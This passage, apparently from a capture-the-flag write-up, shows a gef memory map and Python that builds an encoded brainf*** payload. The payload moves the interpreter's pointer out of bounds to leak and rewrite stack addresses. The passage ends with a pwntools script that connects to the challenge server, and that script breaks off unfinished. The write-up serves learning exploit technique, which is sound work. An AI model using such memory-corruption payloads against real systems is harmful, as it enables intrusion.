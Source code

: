 ```
0x00007ffff7fc9000 0x00007ffff7fcd000 0x0000000000000000 r-- [vvar]
0x00007ffff7fcd000 0x00007ffff7fcf000 0x0000000000000000 r-x [vdso]
0x00007ffff7fcf000 0x00007ffff7fd0000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd0000 0x00007ffff7ff3000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
gef➤  
```
So, the example script from the wiki basically just needs to have each of the portions that move the pointer up by two cells increased to 16, as well as adding more pointer movements to move to the next byte of the address. I also incremented the second byte up from 0x10 will I on that byte. Here is the relevant portion of the script:
```
bf_payload += '<' * (8 + 2) + '.' + '>' * 0x10 + '[-' + '<' * 0x10 + '+' + '>' * 0x10 + ']' + '.' + '<' * 0x10
bf_payload += '>' + '.' + '>' * 0x10 + '[-' + '<' * 0x10 + '+' + '>' * 0x10 + ']' + '.'  + '<' * 0x10 + '+' * 0x10
bf_payload += ('>' + '.' + '>' * 0x10 + '[-' + '<' * 0x10 + '+' + '>' * 0x10 + ']' + '.'  + '<' * 0x10) * 4
``` 
The final, full script to create the modified brainf*** script and store it in a file for local testing is below; it came it at a mere 838 characters even with some extra characters for debugging left in, so well within the maximum of 4000 bytes:
```
file1 = open('sample_program', 'wb')

bf_chars = '>]<[,.-+'
bf_payload = '>' * (0x130 + 0x8) + '.' + '-' * 58  + '>' + '-' * 0x2 + '>' + '+' * 12

bf_payload += '<' * (8 + 2) + '.' + '>' * 0x10 + '[-' + '<' * 0x10 + '+' + '>' * 0x10 + ']' + '.' + '<' * 0x10
bf_payload += '>' + '.' + '>' * 0x10 + '[-' + '<' * 0x10 + '+' + '>' * 0x10 + ']' + '.'  + '<' * 0x10 + '+' * 0x10
bf_payload += ('>' + '.' + '>' * 0x10 + '[-' + '<' * 0x10 + '+' + '>' * 0x10 + ']' + '.'  + '<' * 0x10) * 4

plain = b'\x40\x41\x42\x43\x44\x45\x46\x47'
for char in bf_payload:
	index = bf_chars.find(char)
	file1.write(chr(plain[index]).encode('ascii'))

file1.close()

```
I also came up pwntools script to automatically connect to the remote server and feed in the payload, but in this case, you could easily just copy-paste the modified brainf*** script and input it manually.
```
from pwn import *

#target = remote('localhost', 1337)
target = remote('193.57.159.27', 28643)

print(target.recvuntil('program:'))

payload = b''

bf_payload = '<' * (0x130 + 0x8) + '.' + '-' * 58  + '<' + '-' * 0x2 + '<' + '+' * 12


```